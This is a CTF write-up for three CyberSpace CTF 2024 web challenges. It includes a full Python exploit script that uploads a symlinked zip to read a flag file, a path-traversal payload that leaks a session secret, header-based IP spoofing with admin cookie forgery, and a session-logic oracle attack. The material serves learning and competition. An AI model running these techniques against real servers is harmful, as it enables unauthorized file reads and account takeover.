








# CyberSpace CTF 2024 Writeup

## ZipZone



```python
import logging
import os
import subprocess
import uuid

from flask import (
    Flask,
    abort,
    flash,
    redirect,
    render_template,
    request,
    send_from_directory,
)

app = Flask(__name__)
upload_dir = "/tmp/"

app.config["MAX_CONTENT_LENGTH"] = 1 * 10**6  # 1 MB
app.config["SECRET_KEY"] = os.urandom(32)


@app.route("/", methods=["GET", "POST"])
def upload():
    if request.method == "GET":
        return render_template("index.html")

    if "file" not in request.files:
        flash("No file part!", "danger")
        return render_template("index.html")

    file = request.files["file"]
    if file.filename.split(".")[-1].lower() != "zip":
        flash("Only zip files allowed are allowed!", "danger")
        return render_template("index.html")

    upload_uuid = str(uuid.uuid4())
    filename = f"{upload_dir}raw/{upload_uuid}.zip"
    file.save(filename)
    subprocess.call(["unzip", filename, "-d", f"{upload_dir}files/{upload_uuid}"])
    flash(
        f'Your file is at <a href="/files/{upload_uuid}">{upload_uuid}</a>!', "success"
    )
    logging.info(f"User uploaded file {upload_uuid}.")
    return redirect("/")


@app.route("/files/<path:path>")
def files(path):
    try:
        return send_from_directory(upload_dir + "files", path)
    except PermissionError:
        abort(404)


@app.errorhandler(404)
def page_not_found(error):
    return render_template("404.html")


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=5000)
```

This challenge involves symbolic links. Reference [here](https://ctftime.org/writeup/8488).

The idea is to link the flag file to a zip file so that when the server unzips it, a symbolic link is created that points to the target file, allowing you to access the flag. In the `entrypoint.sh` file, we can see where the flag is located:

```shell
cp /home/user/flag.txt /tmp/flag.txt
```

Exploit script:

```python
import requests
import os
from bs4 import BeautifulSoup

BASE_URL = "https://zipzone-web.challs.csc.tf"
symlink_name = "flag"
zip_name = "exploit.zip"
flag_path = "/tmp/flag.txt"

def create_zip():
    os.system(f"ln -s {flag_path} {symlink_name}")
    print(f"[+] Symlink created")
    os.system(f"zip -y {zip_name} {symlink_name}")
    print(f"[+] Zip file created")

def upload_zip():
    file_path = f"{os.getcwd()}/{zip_name}"
    files = {'file': open(file_path, 'rb')}
    response = requests.post(f"{BASE_URL}", files=files)
    if response.status_code == 200:
        print(f"[+] Zip file uploaded")
    else:
        print(f"[+] Failed to upload zip file. Status code: {response.status_code}")
    
    # Take uuid from response
    response_text = response.text
    soup = BeautifulSoup(response_text, 'html.parser')
    uuid = soup.find('a')['href']
    print(f"[+] UUID: {uuid}")
    return uuid

def get_flag(uuid):
    file_url = f"{BASE_URL}{uuid}/{symlink_name}"
    response = requests.get(file_url)
    
    if response.status_code == 200:
        output_path = "flag.txt"
        with open(output_path, 'wb') as file:
            file.write(response.content)

        with open(output_path, 'r') as file:
            flag = file.read()
            if "CSC" in flag:
                print(f"[+] Flag: {flag}")
            else:
                print(f"[+] Flag not found in file")
    else:
        print(f"[+] Failed to download file. Status code: {response.status_code}")

def main():
    create_zip()
    uuid = upload_zip()
    get_flag(uuid)

if __name__ == "__main__":
    main()
```

In the script below, we create a symbolic link to the flag file, zip it, and upload it to the server. Once uploaded, we retrieve the flag.

Flag: `CSCTF{5yml1nk5_4r3_w31rd}`

## notekeeper



This challenge is based on a Ruby web application using the Cuba framework. It handles routes like `/login`, `/register`, `/flag`, `/admin`, and `/report`. Let's dive into the source.

```ruby
...
on "flag" do
      begin
        if session[:user] == "admin"
          if req.ip == "127.0.0.1"
            stdout, status = Open3.capture2("/flag")
            res.write stdout
          else
            res.status = 403
            res.headers["Content-Type"] = "text/html"
            res.write partial("403")
          end
        else
            res.status = 403
            res.headers["Content-Type"] = "text/html"
            res.write partial("403")
        end        
      rescue
        res.status = 500
        res.headers["Content-Type"] = "text/html"
        res.write partial("500")
      end
    end
...
```

In server.rb, the conditions to retrieve the flag are:
- The session user must be `"admin"`.
- The request IP must be `127.0.0.1`.

The first condition I need to steal admin's secret first and then use that to generate admin's session. The second one can spoofing IP. 

### First part
First, I tried changing the IP using the X-Forwarded-For header as described in [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/special-http-headers#headers-to-change-location), but this only worked locally, not remotely.



After a few hours, I receive admin's announcement:

 also describe this problem. After some research, I found [that](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Forwarded) using the Forwarded header allowed the bypass both locally and remotely.



Using that can work for both local and remote. 



### Second part

Next, I needed to steal the admin’s session to fulfill the first condition. The application includes the following code, which allows file reads from the server:

```ruby
    on "download" do
      begin
        if session[:user] == nil
            res.status = 403
            res.headers["Content-Type"] = "text/html"
            res.write partial("403")
        else
          if req.ip == "127.0.0.1"
            on param("filename") do |filename|
              file = File.join(report_path, filename)
              if File.exist?(file)
                content = File.open(file).read()
                files = Dir.each_child(report_path)
                res.write partial("admin", error: "File doesn't exist!", user: session[:user], files: files, content: content)
              else
                files = Dir.each_child(report_path)
                res.write partial("admin", error: "File doesn't exist!", user: session[:user], files: files, content: "")
              end
            end
          else
            res.status = 403
            res.headers["Content-Type"] = "text/html"
            res.write partial("403")
          end
        end         
      rescue
        res.status = 500
        res.headers["Content-Type"] = "text/html"
        res.write partial("500")
      end
    end
```

Using this, I exploited a Local File Inclusion (LFI) vulnerability to read server.rb, revealing the session secret key. In the top of the source code that include secret but it's replaced by author so just read the `server.rb` to claim the secret. The payload is something like: `../../../../../../../home/user/server.rb`

Secret:

```ruby
Cuba.use Rack::Session::Cookie, :key => 'session', :secret => 'a!g<aH5GsN:+pv"-.fcx<;/1BCLT4lixxk]q/xB(_4pn]Ya_?JT#,_=}n|wf{`23'
```

The last thing to do is generating the admin's session. To generate an admin session, I ran a script that replaced the secret locally, allowing me to become the admin. Here's example how you can use to show session admin after generating.

```ruby
on "set_admin" do
    session[:user] = "admin"
    # Put the session cookie in the response
    res.set_cookie("session", session[:user])
    res.write "You are now admin!"
  end
```

Flag: `CSCTF{Y0u_G0t_1t_G00d_J0b}`

## Quiz



This challenge was tricky. After several hours of analysis, I found that in `quiz.php`, there was no session validation when answering quiz questions.

```php
<?php
session_start();
require_once "config.php";

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
    if (!isset($_GET['topic'])) {
        header('Location: /');
        exit();
    }

    $quizzes = json_decode(file_get_contents('./quizzes.json'), true);

    $topic = $_GET['topic'];
    $q_num = 0;
    $correct = 0;
    $next_correct = rand(0, count($quizzes[$topic][$q_num]['answers'])-1);

    if (!isset($quizzes[$topic])) {
        header('Location: /');
        exit();
    }
    
    $question = $quizzes[$topic][$q_num]['question'];
    $answers = $quizzes[$topic][$q_num]['answers'];
    $message = "Good luck!";

    $_SESSION['topic'] = $topic;
    $_SESSION['q_num'] = $q_num;
    $_SESSION['correct'] = $correct;
    $_SESSION['next_correct'] = $next_correct;
}
elseif ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!isset($_SESSION['topic'], $_SESSION['q_num'], $_SESSION['correct'], $_SESSION['next_correct'])) {
        header('Location: /');
        exit();
    }

    $topic = $_SESSION['topic'];
    $q_num = $_SESSION['q_num'];
    $correct = $_SESSION['correct'];
    $next_correct = $_SESSION['next_correct'];

    $quizzes = json_decode(file_get_contents('./quizzes.json'), true);

    if (!isset($quizzes[$topic])) {
        header('Location: /');
        exit();
    }

    $answer = $_POST['answer'];

    if (intval($answer) === $next_correct) {
        $message = "Good job " . htmlspecialchars($_SESSION['username']) . ", that was correct!";
        $correct++;
    }
    else {
        $message = "Sorry " . htmlspecialchars($_SESSION['username']) . ", that's not right...";
    }
    $q_num++;

    if ($q_num < count($quizzes[$topic])) {
        $question = $quizzes[$topic][$q_num]['question'];
        $answers = $quizzes[$topic][$q_num]['answers'];
        $next_correct = rand(0, count($quizzes[$topic][$q_num]['answers'])-1);
        $_SESSION['q_num'] = $q_num;
        $_SESSION['correct'] = $correct;
        $_SESSION['next_correct'] = $next_correct;
    } else {
        $_SESSION['final_score'] = $correct;
        $_SESSION['final_questions_count'] = count($quizzes[$topic]);

        unset($_SESSION['topic'], $_SESSION['q_num'], $_SESSION['correct']);

        header('Location: /result.php');
        exit();
    }
}
?>
...
```

So I try to logout first and then try to answer I found this.



There are 5 answers in each question but just one answer that difference from the others. And when i log in and use that answer, the server says that's correct answer. 

Here’s the attack flow:
1. Log in and start the quiz.
2. Log out and try answering the quiz.
3. Identify the correct answer by testing all options (as one answer always stands out).
4. Log back in and submit the correct answer.
5. Repeat this process 25 times to finish the quiz.
6. Finally, retrieve the flag in `result.php`.

Flag: `CSCTF{3rr0r5_c4n_b3_0r4c135}`
